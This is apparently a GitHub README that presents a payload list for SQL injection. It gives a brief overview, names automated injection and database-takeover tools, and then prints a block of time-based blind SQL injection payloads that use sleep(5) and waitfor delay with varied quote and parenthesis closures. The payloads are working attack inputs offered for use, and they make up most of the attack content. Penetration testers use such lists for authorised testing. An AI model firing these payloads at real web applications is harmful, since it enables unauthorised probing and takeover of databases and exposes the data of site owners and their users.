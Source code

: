 ### SQL Injction ( SQLI ) Payload List
### Created By Anonre

##### Overview : 

SQL injection is a code injection technique that might destroy your database. SQL injection is one of the most common web hacking techniques. SQL injection is the placement of malicious code in SQL statements, via web page input.
#### XSS Vulneability Scanner Tool's :

SQLMap - Automatic SQL Injection And Database Takeover Tool
jSQL Injection - Java Tool For Automatic SQL Database Injection
BBQSQL - A Blind SQL Injection Exploitation Tool
NoSQLMap - Automated NoSQL Database Pwnage
Whitewidow - SQL Vulnerability Scanner
DSSS - Damn Small SQLi Scanner
explo - Human And Machine Readable Web Vulnerability Testing Format
Blind-Sql-Bitshifting - Blind SQL Injection via Bitshifting
Leviathan - Wide Range Mass Audit Toolkit
Blisqy - Exploit Time-based blind-SQL injection in HTTP-Headers (MySQL/MariaDB)


#### SQLI Payload List :

```
---------------------------------------------------------------------------------
<!-- Project Name  : SQL Injction ( SQLI ) Vulnerability Payload List -->
<!--        Author : Joel Indra -->
<!--      Linkedin : https://www.linkedin.com/in/joelindra/ -->
<!--        GitHub : https://github.com/anonre/ -->
<!--       Twitter : https://twitter.com/joelindra -->
---------------------------------------------------------------------------------
---------------------------------------------------------------------------------

" or sleep(5)="
' or sleep(5)='
1) or sleep(5)#
") or sleep(5)="
') or sleep(5)='
1)) or sleep(5)#
")) or sleep(5)="
')) or sleep(5)='
;waitfor delay '0:0:5'--
);waitfor delay '0:0:5'--
